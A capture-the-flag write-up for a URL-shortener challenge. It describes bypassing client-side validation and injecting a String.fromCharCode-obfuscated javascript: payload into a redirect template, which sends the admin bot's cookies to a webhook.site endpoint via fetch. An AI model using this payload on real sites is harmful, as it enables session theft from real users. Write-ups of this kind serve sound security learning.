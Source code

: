 ## Name

**Oops**

*A simple URL shortener. What could go wrong?*

---

### Problem Description

The website is a URL shortener with two main functionalities:

1. **Shorten a custom URL**
2. **Report a shortened URL**, which is then visited by the **admin using a browser puppet** (**IMPORTANT**)

---

### Solution

Since the source code is provided, we identified two key obstacles to exploitation:

* **Client-side URL validation**:
  The site uses a regex-based parser to validate URLs, but the filter is only enforced on the client side. By using **Burp Suite** to repeat and manipulate requests, we bypassed the client-side restrictions.

* **Unsafe redirect template**:
  The redirect logic uses:

  ```javascript
  location.href = "{{url}}"
  ```

  This allows us to attempt injecting a JavaScript payload via the shortened URL.

---

### Payload Development

Initially, direct payloads failed due to sanitization — special characters were escaped, preventing code execution.

However, a useful obfuscation technique came to mind:
**`String.fromCharCode()`**

This method allows us to encode the payload using character codes, which are not filtered, and then decode them client-side at runtime.

---

### Final Payload

```javascript
javascript:eval(String.fromCharCode(**_webhook_to_characters_**))
```

Where the unencoded logic is:

```javascript
fetch('https://webhook.site/some_id?cookie=' + document.cookie)
```

This payload successfully bypasses sanitization and executes in the admin’s browser, sending their cookies to our controlled endpoint.
